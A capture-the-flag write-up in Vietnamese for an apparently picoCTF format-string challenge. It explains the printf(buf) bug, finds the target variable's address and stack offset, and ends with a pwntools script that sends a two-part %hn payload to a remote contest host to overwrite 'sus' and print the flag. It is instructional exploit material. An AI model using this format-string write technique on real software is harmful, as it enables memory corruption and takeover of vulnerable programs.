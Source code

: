 ```c 
  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
- Có lỗi `format string` ở `printf(buf)`
- Ta cần thay đổi giá trị biến `sus` thành `0x67616c66` để có thể lấy flag
- Ta tìm địa chỉ biến `sus`
![image](https://hackmd.io/_uploads/B1ZBLl1O0.png)
- Địa chỉ biến `sus` là `0x404060` 
- Để lợi dụng lỗi `format string` để thay đổi giá trị biến `sus` ta cần dùng `%n` 
- Vì giá trị `0x67616c66` là số rất lớn có thể gây ra lỗi khi pading qua các byte để ghi được giá trị nên ta chia 2 lần mỗi lần ghi 2 byte với 2 giá trị `0x6761` và `0x6c66`
- Để ghi giá trị 2 byte ta dùng `%hn`
- Vậy ta sẽ ghi 2 giá trị là `0x6c66` vào địa chỉ `0x404060` và giá trị `0x6761` vào địa chỉ `0x404062`
- Để có thể ghi giá trị chính xác phụ thuộc vào số byte ở trước đó nên ta đưa giá trị nhỏ hơn là `0x6761` vào địa chỉ `0x404062` trước 
- Để địa chỉ của biến `sus` và `sus+2` nằm đúng trên một địa chỉ của stack ta pading qua `0x30` sau đó ghi địa chỉ vào 
- Tìm vị trí sau khi pading thì địa chỉ ta đưa vào nằm ở đâu trên stack 
![image](https://hackmd.io/_uploads/rk7FFeJdC.png)
- Địa chỉ ta ghi vào nằm ở `0x7fffffffdc80` 
- Tính ofset `(0x7fffffffdc80 - 0x7fffffffdc10)/8 + 6 = 20`
- Sau khi ghi vào địa chỉ `sus+2` thì ta cần trừ các byte ở trước cho phù hợp để ghi giá trị đúng vào địa chỉ `sus`
`0x6c66 - 0x6761 = 1285 byte`
## Script
```python=
#!/usr/bin/python3

from pwn import *

#p = process('./vuln')

p = remote('rhea.picoctf.net', 57539)
sus = 0x404060

payload = b''
payload += b'%26465c%20$hn%1285c%21$hn'
payload = payload.ljust(0x30, b'a')
payload += p64(sus+2)
payload += p64(sus)

#log.info(payload)
#input()
p.sendlineafter(b'say?\n',payload)
```